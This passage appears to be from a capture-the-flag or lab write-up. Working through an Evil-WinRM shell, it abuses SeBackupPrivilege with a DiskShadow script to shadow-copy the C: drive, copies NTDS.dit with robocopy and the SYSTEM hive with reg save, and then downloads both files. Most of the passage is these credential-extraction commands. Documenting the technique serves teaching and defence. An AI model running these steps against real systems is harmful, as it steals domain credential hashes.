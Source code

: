 
```
unix2dos raj.dsh
unix2dos: converting file raj.dsh to DOS format...
```



Then we go back to `evil-winrm`, and create `tmp` directory under `C:\` 
```
*Evil-WinRM* PS C:\> mkdir tmp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          7/1/2025   9:40 AM                tmp

```


Then we upload the `raj.dsh` file that we have created.

```
cd tmp
upload raj.dsh
```


Then we `Abuse SeBackupPrivilege` with `DiskShadow`:

```
diskshadow /s raj.dsh
```

- DiskShadow is a Microsoft utility that interfaces with **Volume Shadow Copy Service (VSS)**.
- This script:
    
    1. Creates a shadow copy (snapshot) of the C:\ drive.
        
    2. Mounts the snapshot as a **virtual drive** (Z:).
        
    3. Bypasses locks (like locked NTDS.dit) and access permissions using SeBackupPrivilege.



**Extracting `NTDS.dit` and `SYSTEM` Hive**

```
robocopy /b z:windows\ntds . ntds.dit
reg save hklm\system c:\tmp\system
```



Finally, downloaded both:

```
download ntds.dit
download system
```
